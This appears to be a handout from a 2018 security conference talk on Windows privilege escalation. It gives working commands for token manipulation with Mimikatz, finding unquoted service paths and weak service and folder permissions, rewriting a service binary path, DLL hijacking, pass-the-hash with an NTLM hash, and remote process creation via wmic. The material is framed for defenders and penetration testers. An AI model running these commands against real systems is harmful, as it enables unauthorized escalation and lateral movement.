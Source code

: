 
## PRIVILEGE ESCALATION in Windows

#### CyberArk Impact 2018

@Doronaim



<u>Intro</u>:

In this document you'll be able to find all scripts and code I ran in the session. I hope you'll find these tools helpful in protecting you organization from within.

**Remember **: Assume breach is the right state of mind.



<u>Tools:</u>

1. Windows Internals - https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
2. Process Hacker - https://wj32.org/processhacker/
3. Mimikatz - https://github.com/gentilkiwi/mimikatz/releases



<u>Part I - Local Privilege Escalation:</u>

1. **Token Manipulation** - Flagging up the "SeDebug" privilege.

   In mimikatz : 

   ```
   privilege::debug
   ```

2. **Unquoted Services**

   In CMD:

   ```
   wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
   ```

3. **Insecure Permissions**

    Check for weak services that allow normal user groups to modify their configuration:

   ```
   accesschk.exe -uwcqv "Everyone" *
   accesschk.exe -uwcqv "Authenticated Users" *
   accesschk.exe -uwcqv "Users" *
   accesschk.exe -uwcqv "<GroupName>" *
   ```

   Change service path in CMD:

   ```
   SC config <serviceName> binPath= “<command>”
   ```

4. **DLL Hijacking**

   Look for folders with insecure permissions:

   (**M**) - Modify (**F**) - Full Access 

   ```
   icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr “BUILTIN\Users"
    
   icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
   ```

5. **EXTRA**

   Check if installers are auto-elevated:

   1. ```
      reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
      ```



<u>Remote Privilege Escalation</u> (RCE)

1. Pass the hash using Mimikatz:

   ```
   sekurlsa::pth /user:Genie /domain:harame.local /ntlm:64f12cddaa88057e06a81b54e73b949b
   ```

2. Access network resouce for having TGT from the DC

   ```
   Dir \\DC\C$
   ```

3. Use the TGT to connect Jafar's machine -  and run a code (we used notepad as PoC)

   ```
   wmic /node:Jafar process call create "notepad.exe"
   ```



[Sploitspern]: https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/
[Pentest.blog]: https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
